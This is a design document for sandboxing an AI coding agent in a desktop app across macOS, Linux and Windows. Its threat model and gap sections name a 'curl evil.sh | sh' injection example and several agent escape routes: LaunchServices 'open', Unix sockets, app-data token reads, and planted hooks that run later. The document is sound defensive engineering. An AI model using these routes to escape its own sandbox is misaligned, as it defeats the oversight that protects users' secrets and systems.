

# Ensemble Desktop: Cross-Platform Sandboxing Design

Status: Revised after review · Owner: cross platform ensemble · Updated: 2 Oct 2026
Scope: Ensemble desktop app (Tauri 2, Rust core) running the agent against the user's real repositories and files on macOS, Linux and Windows.
Companion: [23 · Local desktop design](23_LOCAL_DESKTOP_DESIGN.md) for the install, the embedded Postgres database, the single Node sidecar and the build order.

## Changes after review (2 Oct 2026)

Shivani's review is accepted. This draft now says:

- The trusted base is the Rust core, `ensemble-sbx`, and hub-api. `runner.ts` asks the core to spawn. hub-api is inside that base because it holds the database and the tokens. That is acceptable because tool execution is sandboxed and writes are gated.
- The hard floor lives in the Seatbelt profile and in seccomp. `open` and LaunchServices are the first escape test. Unix sockets and the app-data folder are denied. Plots go through `ensemble-sbx`. Planted files are flagged in the review diff.
- macOS allows system and toolchain reads, denies `$HOME` by default, then allows specific subfolders. Linux and Windows match §3.2. Windows v1 is Ask mode or WSL2.
- Unattended work cannot touch a path outside the trusted folder. Trust is paths only, and per device. Flatpak is out.

Checked against `main` while revising. Where the tree disagrees with the review, the text says what the code shows.

## Changes in v2.1 (2 Oct 2026)

1. **Outside repo as an explicit grant (§5.11).** The sandbox has no built-in idea of "inside the workspace". It only applies the scope a task is given. So working on a repo outside the default workspace means **adding that path to the task's sandbox scope as an explicitly granted path**. Because the path is outside the trusted workspace, adding the grant is what fires the trust prompt.
2. **Trusted-scope rule (TL;DR, §5.8, R15).** If the person has marked the environment or folder as trusted, they never see Allow once or Allow always for commands inside that trusted scope. Prompts appear only for paths outside it.

## Changes in v2 (2 Oct 2026)

1. **No Mac App Store.** Distribution is a DMG download only. Q1 is closed.
2. **Trusted-directory rule (§5.8).** Inside a trusted folder there are no Allow once or Allow always prompts for any command that stays inside it.
3. **Run unattended (§5.9).** It cannot be combined with an untrusted folder. Paths outside the folder are blocked (closed in the 2 Oct review).
4. **Existing code folded in (§1A).** The app already has a folder jail, a command allow-list, a Git ceiling, a macOS Seatbelt profile, a job queue, and Needs me decisions.
5. **Default workspace directory (§5.0).** `~/ensemble-workspace`, plus a setting to change it.
6. **Same-checkout follow-up tasks (§5.10).**
7. **Folders outside the workspace (§5.11).**

---

## 0. TL;DR

- Use **OS-native sandboxing**, not containers: macOS Seatbelt first, then `ensemble-sbx` on Linux and (later) macOS. Windows v1 is Ask mode or WSL2.
- Hide the mechanisms behind **one Rust crate (`ensemble-sandbox`)** with one policy type. Confinement is done by a **tiny helper (`ensemble-sbx`)**. Only the Rust core launches it.
- The **trusted base is the Rust core, the helper, and hub-api.** The agent loop in `workspace/agent.ts` is trusted code. The commands it runs are not.
- **`runner.ts` does not spawn.** Today it does: it `spawn`s `/usr/bin/sandbox-exec` itself. The desktop rewrite makes it ask the core.
- Network is **deny-by-default** and routed through a broker-owned **local proxy**.
- Git safety is enforced by the **broker**. The sandbox has no Git credentials.
- **The trusted-scope rule.** Inside a trusted folder, no Allow once or Allow always prompt. Prompts appear only for paths outside it. Trust is paths only, and per device.
- **Review only** is read-only with no network. It does not prompt per command. It prompts when the agent asks for more access.
- **Run unattended requires a trusted folder.** A path outside that folder is blocked.
- **Distribution is a DMG on macOS (no Mac App Store),** NSIS and zip on Windows, AppImage and `.deb` on Linux. No Flatpak.
- **Build on what exists.** The new work is the helper, the profile fixes, and the trust and unattended rules. Order: doc 23 §14.

---

## 1. Goals and non-goals

### Goals
1. The agent can do real multi-step work (clone, build, test, edit, commit, open PRs) on the user's machine with **minimal prompts**.
2. A compromised or confused agent (prompt injection from a README, a malicious `postinstall` script) **cannot**:
   - read secrets outside its scope (`~/.ssh`, `~/.aws`, browser profiles, the OS keychain, other repos, Ensemble's own app data),
   - write outside its granted paths,
   - exfiltrate data to arbitrary hosts, or through a Unix socket on the machine,
   - push to protected branches or force-push,
   - escape through `open` / LaunchServices,
   - leave a file that runs later, unsandboxed, without that change showing up in the review diff,
   - outlive its task (orphan processes, persistence via login items/cron).
3. One mental model and one policy format across all three desktop OSes.
4. No mandatory third-party runtime (no Docker Desktop, no VM). WSL2 is an explicit Windows v1 choice, not a silent dependency.
5. Prompts look and feel like Cursor/VS Code: clear, specific, batched, non-blocking.

### Non-goals (v1)
- Defending against kernel 0-days or a determined attacker with local admin.
- Sandboxing the Ensemble UI process itself beyond what each OS's app model gives us.
- Mobile.
- Perfect resource accounting (CPU/memory quotas are best-effort).
- A strong native sandbox on Windows. v1 is Ask mode or WSL2.

---

## 1A. What already exists in the app (fold in, don't rebuild)

Read on `main` after PR #30. `docs/18_WHAT_IS_REAL.md` used to say Assign to agent records a job and nothing runs it. That line was stale. `index.ts` calls `startAgentQueue`. `workspace/worker.ts` claims queued jobs. `workspace/agent.ts` `executeJob` runs the job end to end and calls agent-runtime for each model turn. Doc 18 is updated. Q13 is closed.

| Exists today | Where | What it does | How this design uses it |
|---|---|---|---|
| Workspace root | `guard.ts` `workspaceRoot()`, env `ENSEMBLE_WORKSPACE_ROOT`, default `~/ensemble-workspace` | Every fresh checkout goes in `<root>/runs/<job-id>` | Becomes the **default trusted directory** (§5.0) |
| Folder jail | `guard.ts` `resolveWorkFolder`, `blockedReason`, `jailPath` | Refuses system folders, the home folder, `~/Desktop` and similar folders themselves (folders inside them are fine), secret folders and Ensemble's own source. Refuses symlinked roots | Kept as the **pre-check before any trust prompt**. A refused folder can never be trusted |
| Command allow-list | `guard.ts` `parseCommand`, `checkProgram`, `NEVER` | No pipes, redirects or chaining. Dev and file tools are allowed. `checkProgram` looks at **argv[0] only** | The allow-list stays. The hard floor moves into the OS profile, because argv[0] does not cover a child process (§2A) |
| Git ceiling | `guard.ts` `checkGit`, `gitHardening` | No force-push, branch deletes or config and remote changes. Hooks disabled with `core.hooksPath=/dev/null` | Is the **Git gate**. `PROTECTED` is still a fixed name list (G5) |
| Clean child environment | `guard.ts` `childEnv` | Strips secrets, gives a fake `HOME` when the job has no sign-in, redirects npm, pip and uv caches | Kept. It becomes the `EnvPolicy` |
| macOS sandbox | `guard.ts` `seatbeltProfile`, `runner.ts` | `(allow default)`, write denies outside the root, secret reads, Ensemble's source, `.git/hooks`, network by IP, and exec denies for four binaries | **Replaced as the launcher** by the core plus `ensemble-sbx`. The profile is fixed first, while it is still `sandbox-exec` (G1, §2A) |
| Process groups | `runner.ts` `killTree`, `killGroup` | Stop kills the whole tree | Same contract on all OSes |
| Job model | Prisma `WorkspaceJob` | Includes `unattended`, which `routes/agents.ts` always writes as `false` | Extended with trust and access mode. `unattended` gets wired up (§5.9) |
| Queue and locks | `worker.ts`, `resourceKeys` `dir:<path>` and `chain:<root-job>` | Jobs on the same folder or chain wait. A job in Needs me gives its slot back | Is the **checkout lock** |
| Needs me decisions | `tools.ts`, `lib/decisions.ts` `DecisionRule` | allow/deny/expired, and editor hooks with Allow once, this session, Always, Deny | Becomes the **Needs-me queue**. `DecisionRule` gains a `path` rule kind |
| Settings | `orchestration.defaultExecution`, `sandboxNetwork`, `runWithoutAsking` (default true), `maxConcurrentJobs` | The Settings copy of `runWithoutAsking` matches the trusted-folder idea, and the runner does not read the flag yet | §5.8 generalises it. §5.9 removes the "unless unattended" escape |
| Action policy | `agent-runtime/ensemble_agent/policy.py` `decide` | Fails closed, can't be argued out of a deny, and every decision says which rule made it | Same three properties for filesystem and command decisions. Path decisions log their rule too |
| Assign dialog | `components/agent/assign-dialog.tsx` | Place, branch, Git, sandbox, network, sign-in, ask-first | Gains trust state, Review only, and Run unattended with validation |
| Folder picker | `routes/agents.ts` `/api/workspace/pick-folder` | `osascript choose folder`, **macOS only** | Replaced by the Tauri dialog |
| Plots | `agent-runtime/ensemble_agent/plots/sandbox.py` | Runs `[sys.executable, runner.py]`. Monkeypatches `subprocess` and `socket`, blocks some imports, adds an audit hook | Not the sandbox. Plots use the person's Python through `ensemble-sbx`, or JavaScript (§2A) |

**Gaps found while reading, to fix as part of this work:**

- **G1.** The Seatbelt profile is `(allow default)` with targeted denies. Anything under `$HOME` that is not on `SECRET_READS` can be read, including another project. The target is **not** a blanket deny of every read outside the checkout. That breaks on the dyld shared cache, mach services, Xcode, Homebrew, nvm, pyenv and Rosetta. The target is: **system and toolchain reads allowed, `$HOME` denied by default, then allow the workspace, the cache, and the specific toolchain subfolders.**
- **G2.** On Linux and Windows `sandboxAvailable` is false (`process.platform === "darwin"`). Jobs there run as "This machine" with the argv allow-list and the path jail only.
- **G3.** `checkGit` refuses `git worktree`. Decision: **always clone**, never worktrees. Q6 is closed.
- **G4.** The `runWithoutAsking` description says folders outside the workspace stop asking when the run is unattended. Under §5.9 that combination is an error, and an outside path is blocked. The text and the logic change together. The runner does not read the flag today, so this is new behaviour, not a patch on a live check.
- **G5.** `PROTECTED` is a fixed list (`main`, `master`, `trunk`, `develop`, `production`, `release`). It should also include the repo's actual default branch and any patterns the person adds.
- **G6.** `runner.ts` spawns `sandbox-exec` in-process. The core has to become the only spawner (§2).

---

## 2. Threat model (short)

| Actor | Example | Primary control |
|---|---|---|
| Prompt-injected agent | README says "run `curl evil.sh \| sh`" | Network allowlist, FS scope, approval for new domains |
| Malicious dependency | `npm install` runs a `postinstall` that reads `~/.ssh` | `$HOME` denied, secret paths denied again, no creds in the sandbox |
| Child-process escape | `python`, `node`, `make`, `npm` or `sh script.sh` runs `osascript`, `ssh` or `open` | The profile and seccomp, not the argv[0] check (§2A) |
| LaunchServices | `open` on an attacker-written `.command` file | Deny `open`. First escape test |
| Local socket | The Docker socket, ssh-agent, gpg-agent, 1Password | Deny Unix-socket connects. Do not mount those sockets |
| Agent mistake | `git push --force origin main`, `rm -rf ~` | Broker Git gate, write scope |
| Cross-task leakage | Task B reads task A's `.env` | Per-task scope |
| Persistence now | LaunchAgents, cron, Startup folder | FS deny, plus kill-on-close |
| Persistence later | `.vscode/tasks.json`, `.envrc`, `.husky/`, a lifecycle script, a Makefile | Flagged in the review diff (§2A) |
| Prompt injection into hub-api | A README the agent loop reads | Accepted residual risk: hub-api is in the trusted base, and the sandbox gates the tools |

**Trusted computing base:** the Tauri Rust core, the `ensemble-sbx` helper, hub-api (the Node sidecar, including the agent loop), and the OS kernel.

**Why hub-api is in the base.** It holds the database and the connector tokens, and it reads text the attacker can influence, so it can be prompt-injected. That is acceptable because the model does not get a raw `exec`. Tool execution is sandboxed, and a write outside the grant, a push, or a new domain is gated. The tokens must not be reachable from the sandbox: the app-data folder is denied, and the child environment stays stripped. This reason holds once the OS sandbox is actually on. Today that is macOS only (G2).

**Untrusted:** every command the agent runs, every repo it clones, and the plot script.

Named read/write/toolchain grants also allow **metadata only** for their ancestor directories (`workspace/sandbox/seatbelt.ts`), needed for interpreter `realpath`. Ancestor contents and sibling files remain denied, and hard-denied credentials/app data still override grants. Plot workers explicitly grant read-only access to their own helper-script directory.

**Not in the base:** the webview. It talks to the sidecar with a per-launch token. It cannot spawn.

---

## 2A. Gaps the profile has to close

These are requirements, and they are the start of the escape suite (N4).

**1. The never-list only filters argv[0].** `checkProgram` in `guard.ts` throws when `argv[0]` is in `NEVER` (`sudo`, `osascript`, `open`, `launchctl`, `ssh`, `docker`, and the rest). `python`, `node`, `make` and `npm` are on the dev-tool list. `sh`, `bash` and `zsh` are allowed in the sandbox when argv is not `-c`, so `sh script.sh` is allowed. Any of those can start `osascript`, `ssh` or `open`. The Never tier has to be enforced by the Seatbelt profile and by seccomp. The argv check stays as a clear error. It is not the floor.

**2. `/usr/bin/open` and LaunchServices.** The profile denies exec of `/usr/bin/osascript`, `/usr/bin/sudo`, `/usr/bin/security` and `/bin/launchctl`. It does not deny `/usr/bin/open`. `open` starts the target through LaunchServices and launchd, outside the sandbox. `python -c` running `open` on an attacker-written `.command` file is the escape. **This is the first escape test.** It must fail.

**3. Unix sockets.** The network rule is `(deny network-outbound (remote ip "*:*"))` or the localhost variant. That matches IP. It does not match a Unix socket. A sandboxed command can still talk to the Docker socket, ssh-agent, gpg-agent or 1Password. Deny Unix-socket connections. On Linux, do not mount those sockets into the helper's namespace.

**4. The app-data folder.** `SECRET_READS` denies `~/.ensemble`, the keychains, the browser profiles and the other secret directories. It does not name the desktop app-data folder, because that folder does not exist yet. The sandbox must be denied **read and write** of it: the database (including trust rules), logs, and the discovery file that holds the port and the token (mode `0600`, doc 23 §3.4). A write there is a way to change the rules. A read there is the tokens.

**5. Plots.** `plots/sandbox.py` confines a matplotlib script by monkeypatching `subprocess.run` (and `Popen`, `os.system`, `socket`), blocking a list of imports, and installing an audit hook. A script can step around a monkeypatch. The audit hook is not an OS boundary either. `subprocess.run([sys.executable, runner.py])` also breaks when the runtime is a frozen binary, because `sys.executable` is then that binary. Plots run through `ensemble-sbx`, using the person's own Python, or they move to JavaScript. The desktop app does not ship the Python runtime (doc 23 §3.5).

**6. Files that run later, outside the sandbox.** A trusted folder is a place the agent may write. Some of those writes execute when the person, not the agent, next opens the folder:

- `.vscode/tasks.json` with `runOn`: `folderOpen`
- `.envrc` (direnv)
- `.husky/` and other Git hooks the person's own Git will run (the agent's Git has `core.hooksPath=/dev/null`; the person's does not)
- `package.json` lifecycle scripts (`preinstall`, `postinstall`, and the rest)
- the `Makefile`

The review diff **flags changes to these**. They are not silently part of "the agent edited the repo".

---

## 3. Architecture



### 3.1 Components

**`ensemble-sandbox` (Rust crate, in the Tauri core)**
- Owns the `SandboxPolicy` type, path canonicalisation, policy compilation per OS, and process lifecycle.
- Exposes one interface:

```rust
pub struct SandboxPolicy {
    pub run_id: RunId,
    pub cwd: PathBuf,
    pub read_write: Vec<PathBuf>,      // canonicalised, no symlinks
    pub read_only: Vec<PathBuf>,
    pub deny: Vec<PathBuf>,            // always wins over allow
    pub network: NetworkPolicy,        // None | ProxyOnly { port } | Loopback
    pub env: EnvPolicy,                // explicit allowlist; secrets stripped
    pub limits: Limits,                // wall time, procs, memory (best-effort)
    pub allow_ports_bind: Vec<u16>,    // dev servers; the helper forwards these to host localhost
}

pub trait Sandbox {
    fn capabilities() -> PlatformCaps;
    fn spawn(policy: &SandboxPolicy, cmd: Command) -> Result<SandboxedChild>;
}
```

- `capabilities()` is how the UI can say that an AppImage on Ubuntu 24.04 is Landlock only, or that Windows v1 is Ask mode. The degradation is shown, not hidden.

**`ensemble-sbx` (helper binary, one per target triple)**
- Shipped via Tauri `bundle.externalBin`, signed with the app when the app is signed.
- Receives the compiled policy on an **inherited file descriptor / handle**, never via argv or env.
- Applies confinement, then `exec`s the target. It does nothing else. Target size: a few hundred KB.
- Why a separate binary: Landlock, seccomp, Seatbelt and restricted tokens are process-wide. Applying them in the Tauri process would confine the app.

**Broker (the Rust core)**
- The only thing that can spawn sandboxed processes. hub-api asks. It does not hold a path it can `exec` itself. `runner.ts` is rewritten to make that ask.
- Holds Git and API credentials. Runs the egress proxy. Writes the audit log. Drives the Needs-me queue.

**hub-api**
- In the trusted base, for the reason in §2. It is not sandboxed. The sandbox is what it asks the core to apply to agent commands.

### 3.2 Per-platform implementation

#### macOS
- **Mechanism for the first ship:** the existing Seatbelt profile, launched by the core, with the §2A fixes. `ensemble-sbx` replaces the direct `sandbox-exec` call when the Linux helper exists and macOS is ported onto it (doc 23 §14).
- **Reads:** allow system and toolchain paths (`/usr`, `/System`, `/Library/Developer`, the Homebrew prefix, and the specific version-manager directories the person has). **Deny `$HOME` by default.** Then allow the workspace, the cache, and those toolchain subfolders. Do not try to deny every read outside the checkout (G1).
- **TCC.** A grant such as `~/Desktop/acme-api` can raise "Ensemble wants to access your Desktop". The runner may be in the background, with no window focused. The prompt still belongs to the person. The app must not hide it or retry in a loop.
- **Explicit denies, on top of the `$HOME` default:** `~/.ssh`, `~/.aws`, `~/.config/gh`, `~/Library/Keychains`, browser profile dirs, `~/Library/LaunchAgents`, other run checkouts, and the desktop app-data folder (read and write).
- **Exec denies** include `osascript`, `sudo`, `security`, `launchctl`, and **`/usr/bin/open`**. The Never set is denied by the profile, not only by argv[0].
- **Unix sockets** are denied (Docker, ssh-agent, gpg-agent, 1Password).
- **Network:** outbound only to the proxy port, plus the forwarded dev-server ports.
- **Distribution:** no Mac App Store, so no App Sandbox entitlement, and Seatbelt can be applied by the helper. DMG, signed and notarised once the Apple Developer account exists. Until then, on Sequoia and later, the person uses **System Settings → Privacy & Security → Open Anyway**. Right-click then Open does not bypass Gatekeeper anymore.
- **Signing side effects.** The Node sidecar needs the JIT entitlement (`com.apple.security.cs.allow-jit`). Keychain items are tied to the code signature, so an ad-hoc build may prompt on every update (doc 23 §3.3).
- **Lifecycle:** process group and `kill(-pgid)` on task end.
- **Known risk:** `sandbox-exec` has been deprecated for years and is still what Chrome, Bazel, Codex CLI and Claude Code use. It stays behind the trait.

#### Linux
- **Primary:** namespaces in `ensemble-sbx` (or a bundled `bwrap`): user, mount, PID, IPC and network. Bind-mount only granted paths. Private `/tmp`. `--die-with-parent`. Do not mount the Docker socket, ssh-agent, gpg-agent or 1Password.
- **Network:** an empty network namespace, with a socket bridged to the broker proxy as the only general way out. **Dev servers need port forwarding** (R11). A server bound inside an empty namespace is not reachable from the person's browser. The helper publishes the allowed localhost ports on the host and the UI shows them.
- **Defence in depth:** Landlock (kernel 5.13+; TCP connect and bind from ABI v4, kernel 6.7+) and seccomp-bpf. Landlock network rules match **a port, not a host**, and they do not cover UDP. A host allowlist cannot be expressed there. DNS exfiltration is UDP, so seccomp blocks UDP except what the proxy path needs.
- **Fallback ladder:** namespaces + Landlock + seccomp → Landlock + seccomp, when unprivileged user namespaces are blocked → refuse full auto and require approval for every exec. The UI shows which rung is in force.
- **AppArmor.** Ubuntu 23.10 and 24.04 restrict unprivileged user namespaces. The `.deb` installs an AppArmor profile for `ensemble-sbx`. **An AppImage cannot install that profile**, so on Ubuntu 24.04 an AppImage falls through to Landlock only. Say so in the UI.
- **No Flatpak.** Nested user namespaces and the store sandbox fight this design. Packages are AppImage and `.deb` (`.rpm` later).
- **Secret Service** is often missing on a minimal desktop. The keychain needs a fallback (doc 23 §3.3). Q3 still asks whether the helper contains its own namespace code or bundles `bwrap`.

#### Windows
- **v1 is Ask mode, or WSL2.** Ask mode means every command waits for the person. WSL2 means the Linux helper inside WSL, with the repo visible there. A strong native sandbox is later.
- **Low integrity is not the v1 boundary.** A low-integrity process can still read medium-integrity files, so `~\.ssh` is readable. "Secret dirs hidden" is **none without AppContainer** (or hand-written ACLs, which we will not apply to the person's existing folders). Developer tools also break at low integrity: npm, git, pip and MSBuild write into the user profile.
- **Defender and SmartScreen** flag unsigned NSIS installers. The Python freezer goes away with the sidecar, and the unsigned Node and NSIS binaries are still flagged.
- **Later native design, not v1.** A Job Object (`JOB_OBJECT_LIMIT_KILL_ON_JOB_CLOSE`, process and memory limits, UI restrictions) for teardown. AppContainer for checkouts the app creates, where the capability list can hide the network and the secret directories. A restricted token on a folder the person already owns, without rewriting their ACLs. Without admin there is no per-process firewall. That limitation is why v1 does not claim a Windows sandbox.
- The AppContainer loopback restriction, and how a container would reach the egress proxy, stays a question for that later sandbox (Q4).

### 3.3 Platform capability matrix

| Control | macOS | Linux | Windows v1 |
|---|---|---|---|
| FS allow/deny by path | Strong (Seatbelt), once `$HOME` is denied by default | Strong (mount ns + Landlock). Weaker on an AppImage where userns is blocked | none in Ask mode. The WSL2 choice uses the Linux column |
| Secret dirs hidden | Strong, after the `$HOME` deny and the app-data deny | Strong (not mounted) | **none without AppContainer** |
| Network deny + proxy | Strong | Strong (net ns + proxy). Landlock alone cannot name a host, and cannot see UDP | none in Ask mode. WSL2 uses the Linux column |
| Syscall / exec filtering | Partial (SBPL). Must include `open` and the Never set | Strong (seccomp), including UDP | none in v1 |
| Kill whole tree | Process group | PID ns + die-with-parent | Ask mode has no tree guarantee. WSL2 uses the Linux column |
| Resource limits | Weak | Medium | none in v1 |
| Dev servers reachable | Yes, localhost ports in the profile | Yes, only with helper port forwarding (R11) | WSL2 needs the same forwarding |

---

## 4. Why not Docker by default

1. **Hard dependency.** On macOS and Windows, Docker means Docker Desktop (or Colima, or a WSL2 setup the person did not ask for): a large install, a background VM, and often admin rights. That fights a download-and-run app. WSL2 in the Windows v1 row is a chosen fallback for the sandbox, not a Docker requirement.
2. **Footprint and latency.** Image pulls and cold starts sit on the edit-build-test loop.
3. **The host-mount problem.** Working on the person's real repos means a read-write mount. The mount list then decides which secrets are visible, which is the problem OS sandboxing already has, plus a VM. The Docker socket itself is one of the Unix sockets §2A denies.
4. **File performance.** Bind mounts across the VM are slow on macOS and Windows, and file watchers misbehave.
5. **Toolchain mismatch.** Xcode and the person's local SDKs live on the host.
6. **Where Docker is right:** untrusted third-party code, a CI-like environment, a Linux-only toolchain. Offer it later as an opt-in backend behind the same trait, and only if Docker or Podman is already installed. The socket stays out of the default sandbox.

---

## 5. Stacked tasks: restrictive vs too restrictive

### 5.0 The default workspace directory

- One default directory, trusted out of the box:
  - macOS and Linux: `~/ensemble-workspace`
  - Windows: `%USERPROFILE%\ensemble-workspace`
- The name matches `ENSEMBLE_WORKSPACE_ROOT`.
- **Setting: "Workspace folder"** under Settings. A Tauri folder picker, the current path, and "Reset to default".
  - The new path must pass `resolveWorkFolder`.
  - The new path becomes the trusted default. The old one stays trusted until the person removes it.
  - Changing it never moves files. Existing runs keep their `repoPath`.
  - Refused while a job is running.
  - Stored on the device. The hosted API never sees the absolute path.
- `ENSEMBLE_WORKSPACE_ROOT` still overrides the setting, for development and CI.
- Inside the root, the layout stays: `runs/<job-id>/` and `.cache/`.

### 5.1 The scenario
- **Task A:** clone repo A into `runs/<run-A>/repo-a`. Never touch `main`. Create an own branch.
- **Task B:** clone repo B into `runs/<run-B>/repo-b`.
- **Task C:** read repo A's checkout to improve repo B.

Too restrictive: C cannot see A's checkout, and every `npm install` prompts.
Too permissive: C gets the home directory.

### 5.2 Workspace layout

```
~/Ensemble/runs/
  <stack-id>/
    <run-A>/repo-a/        # always a full clone (no worktrees, see G3)
    <run-B>/repo-b/
    <run-C>/scratch/
    .cache/
    manifest.json
```

- Branch name: `ensemble/<run-id>/<slug>`.
- Checkouts are always full clones. The current code puts them at `<root>/runs/<job-id>`. A stack folder is a later, optional grouping.

### 5.3 Capability model

Every task gets a scope from the task graph, never from the agent's say-so:

| Grant | Task A | Task B | Task C |
|---|---|---|---|
| Own checkout | RW `run-A/repo-a` | RW `run-B/repo-b` | RW `run-C/scratch` |
| Upstream outputs | none | none | RO `run-A/repo-a` @ pinned commit |
| Downstream target | none | none | RW `run-B/repo-b` (declared edge `writes: B`) |
| Stack cache | RW `.cache` | RW `.cache` | RW `.cache` |
| Toolchains | RO, the specific subfolders | same | same |
| Home | denied, except those subfolders | same | same |
| Secrets and app data | none | none | none |
| Network | proxy, stack allowlist | same | same |

Rules:
1. **Edges are explicit.** No edge, no access.
2. **Upstream reads are read-only and pinned** to A's latest commit, so C does not see half-written files. A `live` read-only mount is an option (Q5).
3. **Writing another task's checkout shares it.** B and C serialise on that checkout, or C gets its own branch. Default: **own branch**.
4. **Deny always wins.** Secret paths, app data, other stacks, and the rest of `$HOME`.
5. **Lifecycle.** A's checkout stays while C holds a read edge. GC after the stack completes and a retention window, or when the person asks.

### 5.4 Git constraints (enforced by the broker)
- No Git credentials and no SSH agent socket inside the sandbox. Clone and fetch use the broker's helper, scoped to that repo URL.
- **Push goes through the Git gate.** Fast-forward only, to `ensemble/<run-id>/*`. Refused, or sent to Needs me if the person wants an exception: protected branches, force-pushes, deletions, tags, unknown remotes.
- Repo hooks from the clone are disabled on the agent's Git (`core.hooksPath=/dev/null` already). They remain a hazard for the person's own Git, which is why `.husky/` is flagged in the review diff (§2A).
- Server-side branch protection is the backstop.

### 5.5 Permission tiers

| Tier | Examples | UX |
|---|---|---|
| **Auto** | Read/write own checkout, read the allowed toolchain paths, write the stack cache, build and test, bind a forwarded localhost dev port, fetch from allowlisted hosts | Silent, audit-logged |
| **Stack-approved** | Upstream read edges, cross-task write edges, extra domains predicted at plan time | One review screen when the stack is created |
| **Prompt (Needs-me)** | New network domain, a path outside scope, a credential, repo Git hooks, a global install, a write to a user-owned folder | Non-blocking queue item |
| **Never** | Keychain, browser profiles, `~/.ssh` private keys, system dirs, app data, the discovery file, disabling the sandbox, `open` | Hard deny in the OS profile, logged, agent told why |

### 5.6 The Needs-me queue
- A request parks only the step that needs it. Other steps continue.
- Each item shows the task, the exact action, the agent's stated reason (labelled as the agent's), and the risk.
- Choices: **Allow once**, **Allow for this run**, **Allow for this repo or domain always**, **Deny**.
- Identical requests in a stack are merged.
- Timeouts fail closed. Nothing turns into an allow.
- After a run, the broker may suggest a rule. It never adds one by itself.
- Modes: `Ask` (default for an untrusted folder), `Auto within scope`, `Review only` (§5.11).

### 5.7 Example walkthrough
1. The person creates the stack and approves one review screen.
2. A and B run in parallel. A predicted registry is silent. An unpredicted host parks that step.
3. A commits on its run branch. C starts from a read-only snapshot and its own branch off B.
4. A push and a PR are a Needs-me item. The Git gate uses the broker's credentials.
5. `git push origin main` is a hard deny.

### 5.8 The trusted-directory rule

> **The rule:** if the person has marked the folder as trusted, **no Allow once or Allow always prompt is shown for any command inside that trusted scope.** Prompts appear **only** when a command targets a path outside it.

**What counts as trusted:**
- The workspace root from §5.0, always, on this device.
- Any folder the person has trusted, plus everything under it. The record holds the real path after resolving links, the date, and this device. Trust is **per device**. It is not synced (Q16, closed).
- Stored as a `DecisionRule` of kind `path`. Listed and revocable in Settings.
- A folder refused by `resolveWorkFolder` can never be trusted.

**What "stays inside" means:**
- The broker resolves the working directory and every path-looking argument, following links.
- The OS sandbox makes the trusted folder, the cache and the temp dir the writable set, so a script cannot build a path out at run time.
- Reading an allowed toolchain path or the shared cache is not "leaving".
- **Trust does not cover domains.** A new host still follows the job's network setting and the allowlist (Q14, closed).

**What trust does not change:**
- The Never set, now in the profile and in seccomp. Secret folders, app data, Unix sockets.
- The Git ceiling. A push is not "inside the folder".
- The planted-file flags in §2A. Trust is not a reason to hide a new `.husky/` or `postinstall`.

**When a command targets a path outside:**
- It parks in Needs me, unless the run is unattended, in which case it is blocked (§5.9).
- Choices: Allow once, Allow for this run, Always allow this path, Deny.

**UI:**
- The Assign dialog shows "Trusted", or "Not trusted · the agent will ask before every command", with a Trust button.
- An untrusted folder can still run in Ask mode.
- Review only is the other untrusted choice, and it does not ask before every command (§5.11).

### 5.9 Run unattended

**Rule:** the agent may run with nobody present, inside a trusted folder, and **paths outside that folder are blocked.** Unattended cannot be combined with an untrusted folder.

**Behaviour:**
- Inside the folder, prompts are auto-allowed within the Git ceiling. `ask_person` questions get a reasonable choice, and the task says which. Every auto-allowed action is logged with the rule `unattended`.
- **An outside path is blocked.** The task summary lists it.
- The hard floor still applies. Never-commands, secret folders, app data, protected-branch pushes, force-pushes and Ensemble's own source stay denied.

**Validation:**
- **At assignment.** `unattended` on an untrusted folder returns 400, code `UNATTENDED_REQUIRES_TRUST`, with: **"Run unattended can't be used with a folder you haven't trusted. Trust this folder, or turn off Run unattended."**
- **At run time.** If trust is revoked, or the real path changes, the job pauses into Needs me. It does not continue.
- **Default.** Off. `orchestration.defaultDelivery = "unattended"` may preselect the toggle only when the folder is trusted.
- **Code.** `routes/agents.ts` stops hardcoding `unattended: false`. The Settings sentence for `runWithoutAsking` is rewritten (G4).

### 5.10 Same checkout across tasks

A review task reuses the earlier task's exact checkout and branch. This builds on `continueFromJobId`.

1. **Same folder.** Nothing is cloned. No credentials and no network, even for a private repo.
2. **Same branch, pinned.** `branchMode = as-is`. Before starting, check the branch, and record `HEAD` and a `snapshot()`. If the person switched branches, stop.
3. **The diff** is the base branch against the task branch, plus uncommitted changes.
4. **Read-only by default.** `accessMode = "review"`. Git is capped at read commands. Scratch files, if needed, go to `runs/<B-job-id>/scratch`.
5. **Ordering.** The `chain:<root-job>` lock waits until A is finished.
6. **Trust carries over.** An unattended B is allowed only if the folder is trusted.
7. **Lifecycle.** The checkout stays while any chained task needs it.
8. **"Continue from"** is the same-checkout case. **"Reads from"** is a read-only, commit-pinned mount of another task's folder.

Review mode here is read-only. It follows the Review only prompting rule in §5.11: no prompt per command, and a prompt when the agent asks for more access.

### 5.11 A folder outside the workspace

**Scenario:** the person cloned `~/Desktop/acme-api`, edited it, and wants a bug review.

**Mechanism: an explicit grant.**
- `ensemble-sbx` applies the task's granted paths and nothing else about "the workspace".
- The broker adds the path to `SandboxPolicy`: `read_only` for review, `read_write` for "Review and fix". It is the existing `externalRoot`.
- The path is outside the trusted workspace, so the grant **fires the trust prompt**. Until the person answers, the task waits.
- macOS may also show a TCC prompt for Desktop, Documents or Downloads, possibly with no Ensemble window in front (§3.2).
- On Windows v1 this folder is Ask mode, or it is opened under the WSL2 helper. It is not a low-integrity token, and the app does not rewrite ACLs on the person's files.

1. **Pick the folder** with the Tauri dialog, on any OS.
2. **Pre-check.** `resolveWorkFolder` refuses `~/Desktop` itself, a symlink, a system or secret folder, and Ensemble's own code. `~/Desktop/acme-api` passes.
3. **Trust prompt, first time.** "Trust ~/Desktop/acme-api? The agent will be able to run commands in this folder without asking. It still can't read your keys or leave this folder without asking."
   - **Trust this folder.** Saved on this device. No prompts inside.
   - **Just for this task.** Trust ends with the task.
   - **Review only, don't trust.** Read-only, no network. Commands that stay inside the grant do not prompt. A prompt appears only when the agent asks for more: a write, the network, a credential, or a path outside the grant.
   - **Cancel.**
4. **Work in place.** Branch mode is as-is. Switching branches or stashing is refused.
